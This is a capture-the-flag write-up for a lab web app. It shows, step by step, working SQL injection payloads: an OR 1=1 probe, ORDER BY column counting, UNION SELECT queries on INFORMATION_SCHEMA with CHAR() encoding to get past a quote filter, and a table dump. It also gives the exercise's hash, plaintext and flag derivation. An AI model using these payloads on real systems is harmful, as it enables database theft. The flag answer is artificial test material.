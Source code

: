 

in page : http://machineURL/?page=searchimg

you will find an input field search to IMAGE NUMBER:

you can retrieve the image details by intering a number in the input field

one of the ways to detect SQL injection is to submit a quote
```
 ' 
``` 
submiting this quote will return nothing because this input doesn't return the database error, so next we can try OR statement

you can try inputs like 
```
1 OR 1=1 to retrive the whole list of images
```
and that indeed returns all the images which means that we did find a SQL injection

next, we want to retrieve all the tables, we can do that using this query :

```
1 union SELECT null, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```

note: in order for union to succseed we need two conditions :

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

to check for how many columns the original query ruturns, you can test is using ORDER BY clauses and incrementing the specified column index until an error occurs like this :
```
ORDER BY 1--
ORDER BY 2--
ORDER BY 3--
etc.
```

getting the output of all the talbles, notice a list_images table, thats our baby

we send another query to the database to get all the column names for the list_images table

```
1 union SELECT null , COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = CHAR(0x6C, 0x69, 0x73, 0x74, 0x5F, 0x69, 0x6D, 0x61, 0x67, 0x65, 0x73)
```

notice that we have Represented the list_images as CHAR(0x6C, 0x69, 0x73, 0x74, 0x5F, 0x69, 0x6D, 0x61, 0x67, 0x65, 0x73)

that is because whenever we use some kind of quoted input we don't get any output

with that we get all the list_images coulmn names so we can construct a query to get the data of all the list_images

and we do that using this command : 
```
1 union select null, concat_ws(CHAR(124),id, url, title, comment) from list_images
```
that gives us all the column values in the first column (Title) separated by | (char(124))

```
5|borntosec.ddns.net/images.png|Hack me ?|If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

you decrypt 1928e8083cf461a51303633093573c46 and you get albatroz
lowering all the letters and sh256 on it and we get the flag


